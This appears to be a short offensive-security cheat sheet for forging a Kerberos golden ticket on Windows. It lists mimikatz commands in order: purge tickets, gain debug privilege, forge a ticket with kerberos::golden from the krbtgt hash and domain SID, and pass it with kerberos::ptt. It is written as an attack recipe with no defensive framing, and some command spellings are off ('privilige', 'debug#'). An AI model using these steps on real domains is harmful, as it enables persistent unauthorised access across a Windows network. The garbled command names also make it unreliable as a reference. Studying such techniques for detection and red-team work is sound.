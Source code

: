 # Windows - Golden Ticket

```
klist purge
```

Purge all ticket

```
mimikatz# privilige::debug
Privilige '20' OK
```

Check privilege level

```
mimikatz# kerberos::golden /user:<user> /domain:<domain> /sid:<domain_sid> /<cipher_type(e.g. AES256)><krbtgt_hash> /ticket:<generated_ticket_name>
```

Create Golden ticket

```
debug# kerberos::ptt <ticket_name>
```

Load Golden ticket

**References:**
* https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos

